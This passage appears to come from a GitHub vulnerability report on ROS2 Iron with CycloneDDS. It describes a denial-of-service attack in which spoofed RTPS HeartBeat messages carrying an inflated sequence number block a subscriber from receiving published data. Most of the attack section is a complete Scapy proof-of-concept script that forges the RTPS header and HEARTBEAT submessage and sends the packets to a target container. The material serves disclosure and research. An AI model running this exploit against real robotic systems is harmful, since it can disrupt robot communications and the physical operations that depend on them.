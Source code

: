 - **Attack Environment Required Info**
    - Operating System : Ubuntu 22.04 LTS
    - ROS2 IRON CycloneDDS - 2 Docker environments (172.17.0.2, 172.17.0.3)
- **Attack Description**
    - **[Attacker]** Uses the scapy tool to include a random very high Sequence Number (ex. 999999) in a HeartBeat message and sends it to the Subscriber (Listener).
    - **[victim]**  The Subscriber (listener) does not receive the data sent by the publisher until the Sequence Number is 999999.

![image](https://github.com/BOB12thCVEIssacGleaning/CVEIssacGleaning/assets/146199020/8fe3879b-d2cf-421a-885d-f99d17046b4c)

## 4.1. POC (Proof of concept)

```python
# made by CVEIssacGleaning
from scapy.all import *
from scapy.contrib.rtps import *

# RTPS Header
class RTPS(Packet):
    name = "RTPS Header"
    fields_desc = [
        XIntField("magic", 0x52545053),  # RTPS in hex
        XByteField("major", 2),
        XByteField("minor", 1),
        XShortField("vendor_id", 0x0110),
        XIntField("hostId", 0x01109b7f),
        XIntField("appId", 0x3e3008a7),
        XIntField("instanceId", 0x9df82ef1)
    ]

class RTPSSubMessage_HEARTBEAT(Packet):
    name = "RTPS HEARTBEAT"
    fields_desc = [
        XByteField("submessageId", 0x07),
        XByteField("flags", 0x01),
        XShortField("octetsToNextHeader", 0x1c00),
        X3BytesField("readerEntityIdKey", 0x000000),
        XByteField("readerEntityIdKind", 0x00),
        X3BytesField("writerEntityIdKey", 0x000015),
        XByteField("writerEntityIdKind", 0x03),
        LongField("firstAvailableSeqNumber", 0xf423f00),  
        LongField("lastSeqNumber", 0xf423f00),           
        XIntField("count", 0xf423f00)
    ]

for _ in range(2):  
	packet = Ether(src="02:42:ac:11:00:02" ,dst="02:42:ac:11:00:03") / \
		IP(src="172.17.0.2",dst="172.17.0.3") / \
		UDP(sport=50885, dport=7411) / RTPS() / RTPSSubMessage_HEARTBEAT()
	sendp(packet, iface="docker0")
```
